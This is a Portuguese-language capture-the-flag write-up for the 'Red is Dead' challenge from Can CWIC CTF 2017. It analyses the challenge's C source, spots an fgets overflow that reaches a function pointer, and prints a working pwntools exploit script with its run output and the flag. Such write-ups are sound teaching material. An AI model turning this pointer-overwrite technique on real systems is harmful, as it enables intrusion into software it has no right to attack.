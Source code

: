 ```yaml
---
title:  "Red is Dead - Can CWIC CTF 2017"
date:   2017-10-14 10:47:06
categories: [write-ups]
tags: [Can CWIC CTF 2017]
---
```


Analisando a estrutura `user` nós se depara com uma variável color (8 bytes), uma variável name (8 bytes) e um ponteiro (8 bytes)
sendo uma estrutura de 24 bytes em sistemas 64 bits

``` c
struct user {
    char color[8];
    char name[8];
    void (*next)(struct user*);
};
```

linha 17 a  20 não importa, vamos pular e ir para as funções `success_knight` e `success_king`.
``` c
void success_knight(struct user *user) {
    printf("Keeper: Right. Off you go.\n");
    user->next = NULL;
}

void success_king(struct user *user) {
    printf("Keeper: What? I don't know that! Auuuuuuuugh!\n");
    printf("FLAG\n");
    user->next = NULL;
}
```
temos duas funções, uma `success_knight` e uma `success_king`, essa foi fácil, a função `success_king` é a função que entrega a
flag, e a função `success_knight` é apenas um caminho que não vai da em nada, então descartamos ela!

vamos para proxima função `check_knight`.
``` c
void check_knight(struct user *user) {
    user->next = success_knight;
    printf("Keeper: What is your favorite color?\n");
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    if (strcmp(user->color,"red")) {
        user->next = dead;
    }
}
```
Observando a linha 36 me deparei com um overflow
``` c
char *res = fgets(user->color, sizeof(struct user), stdin);
```
Aqui ele tá usando o sizeof para pegar a quantidade de bytes da estrutura user e definir
na variável color, ou seja, o que era 8 bytes agr virou 24 bytes!, o que isso nos ajudará?
poderemos fazer um buffer overflow que nos retornará alguns vazamentos de endereços

``` c
void check_king(struct user *user) {
    user->next = success_king;
    printf("Keeper: What is the air-speed velocity of an unladen swallow?\n");
    printf("%s: What do you mean?\n", user->name);
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
    }
}
```

``` c
void start(struct user *user) {
    printf("Keeper: Stop! What is your name?\n");
    char *res = fgets(user->name, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->name);

    size_t len = strlen(user->name);
    if (len < 2) { printf("Keeper: Sorry `%s', your name is too short\n", user->name);
        user->next = NULL;
        return;
    }

    if(!strncmp(user->name, "Arthur", 6)) {
        user->next = check_king;
        printf("Arthur: It is Arthur, King of the Britons.\n");
    } else {
        user->next = check_knight;
        printf("%s: Sir %s of Camelot.\n", user->name, user->name);
    }
}
```

Bem, Nós poderia começar com o nome `Arthur` e nós iria para `check_king`fazendo a substituição do próximo usuário, mas não havia como ir para o check seguinte!

então nós iria para `user->next = success_king;` que nos daria a flag, foi o que eu pensei, porém, not so easy!

``` c
chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
```

Para ir para o `success king` isso era impossível, pois o comprimento da string era (31) maior do que o número de bytes para a cor (24), portanto, o strcmp sempre retornaria verdadeiro, e o próximo usuário iria para dead.

Portanto o check correto é o `check_knight`
``` c
if (strcmp(user->color,"red")) {
    user->next = dead;
}
```

Temos que burlar a cor para red, isso é fácil já que o fgets ler bytes nulos nós fazeria com`‘red\0’`, cor burlada
agora vamos ajeitar o caminho do `success_king`

Dando um objdump -t <nome do arquivo> teremos o andress das minhas duas funções `success_king` e `success_knight`

``` c
000000000040084e success_king
000000000040082a success_knight
```

Agora para calcular o deslocamento basta diminuir o andress de uma função pela outra

``` python
>>> hex (0x000000000040084e - 0x000000000040082a)
'0x25'
>>> 0x25
37
```

Temos nossa distancia de uma função para outra, `37`, então, teremos que subtrair do andress do `check_king`
tendo tudo que precisamos, é hora do solve

``` python
from pwn import *
from struct import pack, unpack
from time import sleep

def packed(blank):
    return pack("<q", blank)

r = remote('159.203.38.169', 5683)
r.recv(1024)

print("[ok] Bufffer Overflow]... ")
r.send('0x8bytes' + '\n')
time.sleep(0.7)

print("[ok] Address of check_knight...")
output = r.recv(1024).strip()
andress = output[8:14] + '\x00\x00'
andress = unpack("<q", andress)[0]
time.sleep(0.7)

print("[OK] Address of success_king...")
andress += -37
time.sleep(0.7)

print("[OK] Success_king...")
r.send('red\0' + '0x00' + '0x000000' + packed(andress))
time.sleep(0.7)

output = r.recv(1024)
print(output[output.find('\nFLAG'):])
r.close()
```

``` c
[+] Opening connection to 159.203.38.169 on port 5683: Done
[ok] Bufffer Overflow]... 
[ok] Address of check_knight...
[OK] Address of success_king...
[OK] Success_king...

FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}
```

`FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}`

[Download da challenge](https://www.sendspace.com/file/m9mm2s){:target="_blank"}

Agradecimentos ao Mateus Pimentel
